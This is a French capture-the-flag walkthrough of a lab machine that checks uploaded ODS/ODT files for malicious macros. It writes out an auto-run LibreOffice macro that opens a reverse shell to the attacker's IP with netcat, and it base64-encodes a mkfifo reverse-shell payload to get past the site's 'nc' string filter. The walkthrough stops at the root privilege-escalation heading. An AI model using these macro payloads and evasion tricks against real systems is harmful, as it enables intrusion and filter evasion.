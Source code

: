 ```yaml
---
title: "Freedom"
description: pickle-fr.jpg
tags: ["Dans cet article je vous présente la machine que j'ai créée, une machine consacré au détéction de malware."]
---
```


# Scan Nmap

    └──╼ [★]$ nmap -p1-65535 192.168.0.22
    Starting Nmap 7.91 ( https://nmap.org ) at 2021-01-08 10:37 CET
    Nmap scan report for 192.168.0.22
    Host is up (0.031s latency).
    Not shown: 65534 closed ports
    PORT   STATE SERVICE
    80/tcp open  http
    MAC Address: 08:00:27:A1:40:3C (Oracle VirtualBox virtual NIC)

    Nmap done: 1 IP address (1 host up) scanned in 5.32 seconds
    ─[10:35:38]─[192.168.0.17]─[root@oldprogrammer]─[~/Documents/wild_code_school/freedom]
    └──╼ [★]$ nmap -p80 -sC -sV 192.168.0.22
    Starting Nmap 7.91 ( https://nmap.org ) at 2021-01-08 10:38 CET
    Nmap scan report for 192.168.0.22
    Host is up (0.00070s latency).

    PORT   STATE SERVICE VERSION
    80/tcp open  http    Apache httpd 2.4.38 ((Debian))
    |_http-server-header: Apache/2.4.38 (Debian)
    |_http-title: Office macro control
    MAC Address: 08:00:27:A1:40:3C (Oracle VirtualBox virtual NIC)

    Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
    Nmap done: 1 IP address (1 host up) scanned in 8.62 seconds
    

Le scan à trouvé uniquement le port `80` qui tourne sur Apache, et il semblerait que la version d'[Apache](https://www.apachelounge.com/Changelog-2.4.html) est plus ou moins récent.

# HTTP

Il s'avère que c'est un site qui `traite` et détecte si les fichiers de type `ODS` ou `ODT` peuvent contenir une `Macro` et essayer de détecté si il y a des choses suspicieux dans le `fichier`.

![picture](https://raw.githubusercontent.com/0xEX75/0xEX75.github.io/master/Screenshot_2021-01-09_11-27-26.png)

Donc, l'application semblerait que il n'accepte pas les autres extensions telles que `jpg`, `png`, `gif` etc.. Donc, j'ai décidé de prendre une `liste` complète des [extensions](https://github.com/dyne/file-extension-list) disponibles sur Linux, et essayer extension par extension avec `BurpSuite` pour trouver celui qui correspond pour l'application, et il s'avère que il a trouvé deux extensions assez intéréssantes, c'est `ODS` et `ODT`.

J'ai essayé de créer un fichier `ODS` avec LibreOffice `New > SpreadSheet` et sauvegarder. Il semblerait que l'application décompresse le fichier `ODS` avec ̀`unzip` et semble le mettre dans le dossier `/office/odt/[numéro_aléatoire]/`.

![picture](https://raw.githubusercontent.com/0xEX75/0xEX75.github.io/master/Screenshot_2021-01-09_11-45-09.png)

# Création Macro

Pour cela, nous allons créer une `macro` avec `LibreOffice` et activer les paramètres nécessaires pour que l'application traite notre fichier, donc allons dans la barre de recherche et lançons `LibreOffice`.

Créeons un nouveau un fichier avec `SpreadSheet` et sauvegarder ce fichier. Allons ensuite dans `Tools` > `Macros` > `Organize macros` et de prendre `Basic`. Choissisez le nom de votre de fichier, ensuite de cliquer sur `Standard` et enfin de créer le `Module` avec l'option `New` à droite, comme dans la capture ci-dessous.

![picture](https://raw.githubusercontent.com/0xEX75/0xEX75.github.io/master/Screenshot_2021-01-09_11-50-51.png)

Une fois le module ajouté, logiquement une page va s'ouvrir automatiquement où nous pouvons écrire dessus, donc utilisons la fonction `Shell` pour créer notre `payload` et sauvegardons cela.

![picture](https://raw.githubusercontent.com/0xEX75/0xEX75.github.io/master/Screenshot_2021-01-09_11-57-16.png)

Maintenant nous devons en sorte que lorsque l'utilisateur ouvrivra notre fichier `ODS`, il faut que la `Macro` soit exécute juste après automatiquement. Allons dans `Tools` > `Customize` > `Events` > cliquer sur `Open Document` et ensuite de cliquer sur `Macro` et de choisir votre macro.

![picture](https://raw.githubusercontent.com/0xEX75/0xEX75.github.io/master/Screenshot_2021-01-09_12-02-22.png)

# Reverse Shell

Créeons un listener sur notre machine avec `nc` sur le port `9001` (dans mon cas), et uploadons le fichier `ODS`. Il s'avère que j'ai pas réçu quelque chose de la machine cible, et il y a une chose très intéréssante sur ce que renvoie le site, il a detecté que `nc` était dangereux et donc à bloqué l'exécution du fichier `ODS`. Il s'avère que il a bloqué les strings `nc` dans le fichier `linux_rule_detect /office/odt/6217/Basic/Standard//script-lb.xml` et `linux_rule_detect /office/odt/6217/Basic/Standard//Module1.xml`.

![picture](https://raw.githubusercontent.com/0xEX75/0xEX75.github.io/master/Screenshot_2021-01-09_12-08-08.png)

Pour cela, je vais décompresser le fichier `ODS` avec `unzip` et d'investiguer les fichiers `script-lb.xml` et `Module1.xml` dans le dossier `Standard`.

    ─[11:26:17]─[192.168.0.17]─[root@oldprogrammer]─[~/machine/freedom/ods]
    └──╼ [★]$ unzip test.ods             
    Archive:  test.ods                                                            
     extracting: mimetype                
      inflating: Basic/Standard/Module1.xml                                
      inflating: Basic/Standard/script-lb.xml  
      inflating: Basic/script-lc.xml                                              
       creating: Configurations2/toolbar/
       creating: Configurations2/floater/                                                                                                                       
       creating: Configurations2/menubar/                                         
       creating: Configurations2/popupmenu/ 
       creating: Configurations2/accelerator/                              
       creating: Configurations2/toolpanel/ 
       creating: Configurations2/progressbar/
       creating: Configurations2/statusbar/ 
       creating: Configurations2/images/Bitmaps/
      inflating: manifest.rdf            
      inflating: meta.xml                
      inflating: styles.xml              
      inflating: content.xml             
      inflating: settings.xml            
     extracting: Thumbnails/thumbnail.png   
      inflating: META-INF/manifest.xml   


Lorsque j'ouvre le fichier `Module1.xml`, il est logique que il détecte `nc` car c'est une commandé prevu, mais je n'arrive pas à voir le deuxième `nc`. Il s'agit en fait de `e(nc)onding` et l'application le détecte comme une string dangereux alors que pas du tout, c'est un faux positif. 

    <?xml version="1.0" encoding="UTF-8"?>
    <!DOCTYPE script:module PUBLIC "-//OpenOffice.org//DTD OfficeDocument 1.0//EN" "module.dtd">
    <script:module xmlns:script="http://openoffice.org/2000/script" script:name="Module1" script:language="StarBasic" script:moduleType="normal">REM  *****  BASIC  *****

    Sub Main
            Shell(&quot;nc -e /bin/sh 192.168.0.17 9001&quot;)
    End Sub
    
Dans ce cas, je suis obligé d'enlever `encoding="UTF-8"` dans le fichier `script-lb.xml` et dans `Module1.xml`. Il faut changer également la commande `nc -e /bin/sh 192.168.0.17 9001` par autre chose. Je vais prendre le payload assez connu de `PentestMonkey`, donc je vais prendre ce payload le mettre en `base64` (car il y a nc dedans).

    $ echo "rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc 192.168.0.17 9001 >/tmp/f"|base64
    cm0gL3RtcC9mO21rZmlmbyAvdG1wL2Y7Y2F0IC90bXAvZnwvYmluL3NoIC1pIDI+JjF8bmMgMTkyLjE2OC4wLjE3IDkwMDEgPi90bXAvZgo=

Ensuite dans LibreOffice je vais remplacer le payload par : 

    Shell("echo "cm0gL3RtcC9mO21rZmlmbyAvdG1wL2Y7Y2F0IC90bXAvZnwvYmluL3NoIC1pIDI+JjF8bmMgMTkyLjE2OC4wLjE3IDkwMDEgPi90bXAvZgo="|base64 -d|sh")

Nous pouvons sauvegarder, enlever le `encoding="UTF-8"` sauvegarder, compresser le fichier avec `zip -r test.ods *`, et ensuite de l'envoyer à la machine cible à l'aide du serveur Web, lorsque je l'upload je réçois immédiatement un shell. 

    listening on [any] 9001 ...
    connect to [192.168.0.17] from (UNKNOWN) [192.168.0.22] 56628
    /bin/sh: 0: can't access tty; job control turned off
    $ python -c "import pty;pty.spawn('/bin/bash')"
    john@freedom:/var/www/html$ id
    uid=1000(john) gid=1000(john) groups=1000(john),24(cdrom),25(floppy),29(audio),30(dip),44(video),46(plugdev),109(netdev),111(bluetooth)
    
# Privesc Root

